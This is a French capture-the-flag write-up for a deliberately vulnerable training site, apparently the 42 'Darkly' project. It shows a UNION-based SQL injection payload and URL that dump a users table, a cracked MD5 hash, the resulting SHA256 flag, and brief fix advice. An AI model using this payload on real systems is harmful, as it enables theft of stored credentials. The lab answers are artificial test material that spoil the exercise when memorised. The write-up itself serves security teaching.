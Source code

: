 # Explication

Nom de la faille:  SQL_injection_member

Aller sur l'URL:  `http://IP_DARKLY/index.php?page=member`

Il y a un input afin de chercher un memebre.

Commme expliqué précedemment, on a réussi à obtenir le schéma complet de la base SQL.

Pour cette faille là, on va se concentrer sur la table Member_Sql_Injection.users qui a pour colonnes:

 `column user_id,  first_name, last_name, Commentaire, town, country, planet, countersign`

En faisaint l'injection SQL:
```
     1 OR 1=1 UNION select Commentaire, countersign FROM Member_Sql_Injection.users
```

http://10.11.200.169/?page=searchimg&id=1+OR+1%3D1+UNION+select+Commentaire%2C+countersign+FROM+Member_Sql_Injection.users&Submit=Submit#


On trouve un 
```
    Commentaire : Decrypt this password -> then lower all the char. Sh256 on it and it's good !
    countersign: 5ff9d0165b4f92b14994e5c685cdce28
```

On fait un md5 decrypt sur le countersign et on obtient `fortyTwo`.
On met tout en minuscule, puis on applique  sur `fortytwo` un SHA256.
On obtient le flag `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`


# Comment profiter de la faille ?

Une injection SQL peut mener à une destruction ou vol de données confidentielles.

Par exemple : vol de mots de passes, adresses email, ...

# Comment la fixe ?

Une des solutions les plus simples pour se prémunir de ce genre d'injections, il est possible d'utiliser différents outils (mySqli, PDO, ...).
Manuellement, cela consiste à vérifier qu'il n'y a aucun opérateur SQL dans la variable injectée.